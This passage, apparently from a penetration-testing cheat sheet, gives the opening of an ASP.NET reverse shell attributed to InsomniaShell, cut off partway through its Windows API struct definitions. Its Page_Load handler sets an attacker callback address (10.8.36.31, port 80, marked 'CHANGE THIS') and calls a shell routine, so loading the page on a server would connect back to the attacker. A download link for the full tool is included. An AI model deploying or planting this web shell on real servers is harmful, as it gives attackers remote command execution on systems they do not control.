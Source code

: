-----------------

### Asp Reverse shell

-----------------

- Example-:

```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
    
        protected void Page_Load(object sender, EventArgs e)
    {
            String host = "10.8.36.31"; //CHANGE THIS
            int port = 80; ////CHANGE THIS
                
        CallbackShell(host, port);
    }

    [StructLayout(LayoutKind.Sequential)]
    public struct STARTUPINFO
    {
        public int cb;
        public String lpReserved;
        public String lpDesktop;
        public String lpTitle;
        public uint dwX;
        public uint dwY;
        public uint dwXSize;
        public uint dwYSize;
        public uint dwXCountChars;
        public uint dwYCountChars;
        public uint dwFillAttribute;
        public uint dwFlags;
        public short wShowWindow;
        public short cbReserved2;
        public IntPtr lpReserved2;
        public IntPtr hStdInput;
        public IntPtr hStdOutput;
        public IntPtr hStdError;
    }

    [StructLayout(LayoutKind.Sequential)]
    public struct PROCESS_INFORMATION
    {
        public IntPtr hProcess;
        public IntPtr hThread;
        public uint dwProcessId;
        public uint dwThreadId;
    }

    [StructLayout(LayoutKind.Sequential)]
    public struct SECURITY_ATTRIBUTES
    {
        public int Length;
```
